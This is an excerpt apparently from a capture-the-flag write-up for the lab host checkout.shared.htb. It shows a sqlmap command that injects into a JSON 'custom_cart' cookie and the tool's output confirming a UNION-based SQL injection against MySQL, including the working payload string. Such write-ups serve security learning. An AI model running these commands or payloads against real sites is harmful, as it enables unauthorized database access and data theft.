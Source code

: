     
    
    oxdf@hacky$ sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch
            ___
           __H__
     ___ ___[)]_____ ___ ___  {1.6.6.12#dev}
    |_ -| . [']     | .'| . |
    |___|_  [(]_|_|_|__,|  _|
          |_|V...       |_|   https://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 13:23:39 /2022-08-12/
    
    custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
    [13:23:39] [INFO] testing connection to the target URL
    [13:23:40] [INFO] checking if the target is protected by some kind of WAF/IPS
    do you want to URL encode cookie values (implementation specific)? [Y/n] Y
    [13:23:40] [WARNING] heuristic (basic) test shows that (custom) HEADER parameter 'Cookie #1*' might not be injectable
    [13:23:41] [INFO] testing for SQL injection on (custom) HEADER parameter 'Cookie #1*'
    [13:23:41] [INFO] testing 'Generic UNION query (NULL) - 3 to 3 columns (custom)'
    [13:23:41] [WARNING] applying generic concatenation (CONCAT)
    injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
    [13:23:48] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
    [13:23:55] [INFO] (custom) HEADER parameter 'Cookie #1*' is 'Generic UNION query (NULL) - 3 to 3 columns (custom)' injectable
    [13:23:55] [INFO] checking if the injection point on (custom) HEADER parameter 'Cookie #1*' is a false positive
    (custom) HEADER parameter 'Cookie #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 57 HTTP(s) requests:
    ---
    Parameter: Cookie #1* ((custom) HEADER)
        Type: UNION query
        Title: Generic UNION query (NULL) - 4 columns (custom)
        Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(CONCAT('qkzzq','qkLgtkpenVgVOfSjpNljLUkfXDPnOuEMartRDuNE'),'qzqvq'),NULL-- bgRi":"1"}
    ---
    [13:23:57] [INFO] testing MySQL
    [13:23:58] [INFO] confirming MySQL
    [13:23:59] [INFO] the back-end DBMS is MySQL
    web application technology: Nginx 1.18.0
    back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
    [13:23:59] [INFO] fetched data logged to text files under '/home/oxdf/.sqlmap/output/checkout.shared.htb'
    